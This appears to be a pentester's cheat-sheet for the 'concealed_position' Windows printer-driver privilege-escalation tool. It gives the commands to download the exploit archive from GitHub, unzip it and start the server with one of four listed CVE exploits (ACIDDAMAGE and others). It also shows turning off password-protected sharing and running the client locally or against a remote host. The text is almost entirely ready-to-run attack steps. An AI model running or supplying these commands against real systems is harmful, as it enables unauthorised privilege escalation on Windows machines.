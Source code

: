 ### download exploit
```
iwr https://github.com/jacob-baines/concealed_position/releases/download/1.0.0/release_1.0.zip -outfile concealed_position.zip
```

### unzip
```
Expand-Archive -LiteralPath concealed_position.zip -DestinationPath concealed_position
```

### start cp_server and set up a new printer (-e exploit to use)
```
cp_server.exe -e ACIDDAMAGE
```

### possible exploits:
```
CVE-2021-35449 ACIDDAMAGE
CVE-2019-19363 POISONDAMAGE
CVE-2021-38085 RADIANTDAMAGE
CVE-2020-1300  SLASHINGDAMAGE
```

### show added printer
```
Get-Printer
```

### manual step
```
in Advanced Sharing Settings > turn off password protected sharing
```

### start client remotely (-n remote evil printer name, -e exploit to use)
```
cp_client.exe -r <lhost> -n ACIDDAMAGE -e ACIDDAMAGE
```

### start client localy
```
cp_client.exe -l -e ACIDDAMAGE
```

### References
https://github.com/jacob-baines/concealed_position  

